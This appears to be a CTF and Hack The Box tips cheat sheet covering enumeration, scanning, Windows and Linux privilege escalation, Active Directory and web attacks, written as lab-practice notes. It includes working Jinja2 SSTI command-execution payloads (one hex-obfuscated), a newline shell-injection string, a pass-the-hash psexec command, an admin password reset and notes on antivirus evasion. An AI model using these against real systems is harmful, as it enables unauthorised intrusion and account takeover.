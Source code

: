 # Tips and Tricks for CTF and HTB boxes
## Enumeration
- Look for source code on Github of open source softwares and their "Security annoucements", try to enumerate the version and released date.
- Use md5 of library file to looks up date or version on VirusTotal
- Looks for security fixes in the next version of current version
- Keep and eye on little detail
- Vhost maybe use on both 80 and 443
- Take any domains you see into /etc/hosts
- Check SSL certificate for more informations
- Always enumerate on subdomains and virtual hosts
- Run gobuster with php,html,zip,txt extension


## Scanning
- Nmap: Scanning UDP is not reliable, always try more scanning with UDP ports (run with --top-ports and -sC or -sV for probing)
- Nmap: Always remember to run Nmap with UDP and vulnerable scripts
- Nmap: Can't run SYN scan through Proxy and sometimes VPN
- Nmap: Some port can't be detected but run important service, remember to check all of them on Internet
- WPScan: only use enumerate all plugins or all themes at once, not both at the same time. 
- Scanning CMS: magescan for Magento, droopescan for Wordpress, SilverStripe and Drupal, wpscan for Wordpress

## Linux
- Check users's mails
- Always try hijacking path if the PATH is writable. 
- Check port knocking if some ports are filtered at /etc/knockd.conf (depends)
- Always patiently check for weird files and folders
- Use ltrace for better anaylysing system calls
- Exploit for shell command injection: newline=$'\n' ; bla${newline}/bin/bash${newline}bla or $(printf 'bla\n/bin/bash\nbla')
- Owner and group owner and even suid bit of a binary doesn't change after transferring through internet and can be used to tampered with suid binary
- Use apport-unpack to extract crashed coredump to file system 
- Check parent directory's permission of files that we don't have permission

## Windows
- Always check local exploits first
- `systeminfo`: Hotifx(s) : N/a means the box hasn't updated 
- Web Server uses WebDav protocol: Use davtest and cadaver to exploit.
- Migrate to another process if you have an unstable shell.
- Always try snmp-check on Windows boxes
- Sometimes we must manually grant privilege on some locations in order to have our own privileges
- Change to other user: https://superuser.com/questions/1420850/is-there-a-way-to-switch-user-from-powershell-or-cmd
- wsman and msrm to remote login on Windows
- Check for installed programs in Program Files or Program Files x86
- Can use the obfuscator release of winPEAS to bypass some AV
- `net user administrator password` to change admin password if we have a local admin account
- Juicy Potato still works with some versions of Windows 10
- Pass the hash must go with username: `psexec -hashes NThash:LMhash Administrator@10.10.10.63`
- Check the arch of shell process, some PE vectors can only be performed on 64 bits shell

## Active Directory
- Use BloodHound and SharpHound to gather information about AD, mark some users as Owned then use "Shortest Path from Owned Principals".
- Dsync attack to get domain admins password and pass the hash -> Forest box in HTB

## Softwares:
- VNC is a remote access application and can be accessed with vncviewer
- Use odat for Oracle Database, and use --sysdba for make the user privileged
- Config for IKE VPN -> Conceal box in HTB.
- lxd containers are under /var/lib/lxc directory


## Web Security
- Bypass eval blacklist a-zA-Z https://ironhackers.es/en/tutoriales/saltandose-waf-ejecucion-de-codigo-php-sin-letras/
- SSTI Jinja 2 https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/
- You can include(file_descriptor) in PHP with /dev/fd/
- Url can be automatically changed to lowercase to bypass filter (GOOGLE.COM -> google.com), even schemes like HtTp or FiLe
- Object.getOwnPropertyNames(obj).get() or .value to get property from object in Javascript
- Sometimes unquoted urllib python can be bypassed by double encoding
- If the chall uses child_prcocess and we can modify it's variables, try prototype pollution for modifying shell variable to 'bash' (thanks nhoc n3mo)
- Some useful payloads for SSTI Jinja2 with Python3:
  - `{{self.__init__.__globals__.__builtins__.__import__('os')}}`
  - `{{''.__class__.mro()[1].__subclasses__()[132].__init__.__globals__.__builtins__.__import__('os').popen('id').read()}}`
  - `{{''|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5f\x6d\x72\x6f\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')(1)|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(132)|attr('\x5f\x5finit\x5f\x5f')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('\x6f\x73')|attr('\x70\x6f\x70\x65\x6e')('id')|attr('read')()}}`
  - `{{ ''.__class__.__mro__[1].__subclasses__()[408]("id", shell=True, stdout=-1).communicate() }}`
- Remember to hunt to noSQLi when facing to a login form 
- Good sqli article: https://websec.wordpress.com/2010/03/19/exploiting-hard-filtered-sql-injections/


## Forensics
- Image steg: zsteg, stegsolve, steghide, stegdetect
- Text steg: stegsnow
- Other steg: binwalk, foremost
- Memory Dump: volatility
- Sound analysing: Audacity, Sonic Visualizer
